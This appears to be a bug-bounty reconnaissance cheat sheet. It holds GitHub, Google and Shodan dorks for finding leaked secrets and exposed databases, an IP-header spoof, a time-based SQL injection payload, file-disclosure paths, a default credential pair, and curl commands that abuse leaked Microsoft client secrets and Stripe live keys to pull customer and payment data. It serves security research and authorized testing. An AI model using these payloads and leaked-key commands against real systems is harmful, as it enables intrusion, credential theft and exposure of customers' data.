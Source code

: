 - **#Github-Dorking**
    
    ```bash
    # Methodology 
    “site.com” :
    here you add your program you wanna search ((you can put “site.com”)) ((“sub.site.com”)) ((“site” only))
    but site name like these ((site-site.com))and have these ((-)) the dork without ((“ “ ))
    # Keywords # password — passwd — pwd — secret — private — Ldap
    Jenkins
    OTP
    oauth
    authoriztion
    password
    pwd
    ftp
    dotfiles
    JDBC
    key-keys
    send_key-keys
    send,key-keys
    token
    user
    login-singin
    passkey-passkeys
    pass
    secret
    SecretAccessKey
    app_AWS_SECRET_ACCESS_KEY AWS_SECRET_ACCESS_KEY
    credentials
    config
    security_credentials
    connectionstring
    ssh2_auth_password
    DB_PASSWORD
    # good Dorks 
    <https://github.com/techgaun/github-dorks/blob/master/github-dorks.txt>
    
    # NOT: **capital**
    like www.bugcrowd.com is repeated ?? -> use “bugcrowd.com” NOT www.bugcrowd ((but in NOT dont add .com))
    example: “paypal” language:python password NOT sandbox.paypal NOT api.paypal NOT www.paypal NOT gmail.com NOT yahoo.com NOT hotmail.com NOT test
    
    # user ? # see if he work for this company 
    orwa atyat bugcrowd linkedin
    user:orwagodfather linkedin 
    user:orwagodfather full name
    user:orwagodfather https://
    user:orwagodfather Ldap
    
    # if you wanna know about some internal links in org you can do like these
    org:bugcrowd https://
    org:bugcrowd host:
    ```
    
- **#Google-Dorking**
    
    ```bash
    #!/bin/bash
    
    # Google dorks helper
    #<https://dorks.faisalahmed.me/>
    # Check that a domain has been provided
    if [ -z "$1" ]; then
      echo "Usage: $0 <domain>"
      exit 1
    fi
    
    # Check that ggldorks.txt exists
    if [ ! -f "ggldorks.txt" ]; then
      echo "Error: ggldorks.txt not found"
      exit 1
    fi
    
    # Loop through each line in ggldorks.txt
    while read dork; do
      # Search for the dork on Google
      results=$(curl -s "<https://www.google.com/search?q=site%3A$1+$>{dork// /+}")
    
      # Check if there were any results
      if [[ $results =~ "did not match any documents" ]]; then
        echo "No results for \\"$dork\\""
      else
        # Save the URL and dork to results.txt
        echo "$dork: $1" >> results.txt
      fi
    done < ggldorks.txt
    ```
    
- **#Shodan-Dorking**
    
    ```python
    ssl:"<ssl_for_target>"
    ssl.cert.subject.CN:"<specific_hos_name_>"
    # go to <more> option and see the filters like http.title
    ssl.cert.subject.CN:"<specific_hos_name_>" http.title:"<title>"   # exclude -http.title:"Invalid URL"
    ssl.cert.subject.CN:"<specific_hos_name_>" -http.title:"Invalid URL" 401
    ```
    
    - [ ] Big IP shodan Search:—> `http.title:"BIG-IP&reg;-Redirect" org:Org`
    - [ ] CVE 2020-3452 → `http.html_hash:-628873716 “set-cookie: webvpn;”`
    - [ ] CVE CVE-2019-11510 → `http.html:/dana-na/`
    - [ ] CVE-2020–5902→ `inurl:/tmui/login.jsp`
    - [ ] **Databases**
        - [ ] `"MongoDB Server Information" port:27017 -authentication`
        - [ ] `"Set-Cookie: mongo-express=" "200 OK"`
        - [ ] `mysql port:"3306"`
        - [ ] `port:"9200" all:"elastic indices"`
        - [ ] `port:5432 PostgreSQL`****
        - [ ] `Port:5985,6984` → couchDB
        - [ ] `Port:9042,9160` → CassandraDB
        - [ ] `port:8291 os:"MikroTik RouterOS 6.45.9"`
        - [ ] `port:5006,5007 product:mitsubishi`
    - [ ] **Exposed ports**
        - [ ] `proftpd port:21` [**FTP, querying for proftpd, a popular FTP server]**
        - [ ] `"220" "230 Login successful." port:21` [To look for **FTP servers** that allow anonymous logins:]
        - [ ] `openssh port:22` [To query for **OpenSSH**, a popular SSH server:]
        - [ ] `port:"23"` [For **Telnet**, querying for port 23:]
        - [ ] `port:"25" product:"exim"`[To look up **EXIM-powered** mail servers on port 25:]
        - [ ] `port:"11211" product:"Memcached"` [**Memcached**]
        - [ ] `"X-Jenkins" "Set-Cookie: JSESSIONID" http.title:"Dashboard"`[**Jenkins**]****
- [ ] `**GET /admin` → blocked | `TRACE /admin` → 200**
    
    ```jsx
    + some info disclosed “Notice that the X-Custom-IP-Authorizationheader, containing your IP address” 
    "Proxy" > "Options", scroll down to the "Match and Replace" section, and click "Add". Leave the match condition blank, but in the "Replace" field, enter:
    X-Custom-IP-Authorization: 127.0.0.1
    ```
    
- [ ] `**cat iplist| httpx -silent -path /xmlrpc.php -title -match-string "XML-RPC”` → [hackerone.com/reports/1890719](http://hackerone.com/reports/1890719)**
    
- [ ] `**/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#**`
    
- [ ] **Have you ever heard about `wc-db` file disclosure?! -> `https://target[.]com/.svn/wc.db`**
    
- [ ] **change `POST` request for sensitive data to `GET` request may be u get `missing authorization policy` bug .**
    
- [ ] [`https://target](<https://target/>)[.]com/wp-content/debug.log`
    

```jsx
f you happen to find Symfony Web Framework that has Symfony profiler debug mode enabled, fuzz the following endpoints:

- /app_dev.php
- /app_dev.php/_profiler/phpinfo
- /app_dev.php/_profiler
- Look for "profiler token" in phpinfo()
```

- [ ] $500 for authentication bypass and reading internal files. Tip: fuzz for special and unicode characters. `/admin/files` --> `302 /authFailure` `/adminFUZZ/files` --> `200` `/admin/FUZZ/files` --> `200`
    
- [ ] Found a Google Map API Key? Follow these steps with me! Google Map API Key starts with "AIzxxxxxxxxxxxxxx" Download this tool for making a clear PoC:
    
    [Abdelrhman Allam on Twitter: "#thread #bugbountytips #googlemapapikey #recon 🧵 Found a Google Map API Key? Follow these steps with me! Google Map API Key starts with "AIzxxxxxxxxxxxxxx" Download this tool for making a clear PoC:](https://twitter.com/sl4x0/status/1651984408843284482?t=BxPfwOqcp-p0fhpXy39KSA&s=19) [https://t.co/22kG7YfJzY](https://t.co/22kG7YfJzY)" / Twitter
    
    [github.comGitHub - ozguralp/gmapsapiscannerContribute to ozguralp/gmapsapiscanner development by creating an account on GitHub.](https://t.co/22kG7YfJzY)
    
- [ ] Apache Karaf Web Console Default Credentials! → `karaf:karaf`
    
- [ ] I found client id & client secret for Microsoft tenant in js file in website → **POC**
    
    ```jsx
    curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'client_id=<CLIENT_ID>&scope=https%3A%2F%[<http://2Fgraph.microsoft.com>](<https://t.co/z2eWOQCENa>)%2F.default&client_secret=<CLIENT_SECRET>&grant_type=client_credentials' '[<https://login.microsoftonline.com>](<https://t.co/fCJczh6J7f>)<TENANT_ID>/oauth2/v2.0/token'
    ```
    
    - [ **Leaking stripe live token ]**
        
        1. He collected all the subdomains using tools like `Subfinder` and `Amass`. After that, he filtered the live subdomains using `httprobe`.
        2. Found a subdomain [](http://admin.redacted.com/)[http://admin.redacted.com](http://admin.redacted.com) which redirects the **user/admin** to google OAuth
            1. Your browser can execute JavaScript, which can, in turn, change the document; in this case, it redirects to **google OAuth.**
        3. After this, he used curl for [](http://admin.redacted.com/)[http://admin.redacted.com](http://admin.redacted.com) to get the plain original output and nothing else.
        
        ⇒ **Leaking stripe live token**
        
        ![https://user-images.githubusercontent.com/108616378/219940019-ba476ee4-4820-42a4-8d50-a08845dd1a40.png](https://user-images.githubusercontent.com/108616378/219940019-ba476ee4-4820-42a4-8d50-a08845dd1a40.png)
        
        ### **⇒ [ Exploiting Stripe Tokens ]**
        
        After checking the `Keyhacks` and the `Stripe API Documentation`. I was able to get a bunch of information, including:
        
        ```
        # Balance: It retrieves the current balance in the Stripe account.
        curl [<https://api.stripe.com/v1/balance>](<https://t.co/NrdwZz2XOp>) -u sk_live_<Secret-Key>:
        # Customers: It retrieves the customer’s data and tracks payments. Including the Customer’s Name, Email, IP used, and many more
        curl <https://api.stripe.com/v1/customers> -u sk_live_<Secret-Key>:
        #Charges: It retrieves charges and card information. One such card details are also attached below. Stripe only gives you the last four digits.
        curl <https://api.stripe.com/v1/charges> -u sk_live_<Secret-Key>:
        #Files: Retrieves Files that the admin uploads. Files generally have invoices, disputes, events, balances, bank accounts, tokens, charges, and more.
        curl <https://api.stripe.com/v1/files> -u sk_live_<Secret-Key>:
        ```
        
        ![https://user-images.githubusercontent.com/108616378/219940030-24b3095a-47cf-4278-b87d-66ef3830bbe7.png](https://user-images.githubusercontent.com/108616378/219940030-24b3095a-47cf-4278-b87d-66ef3830bbe7.png)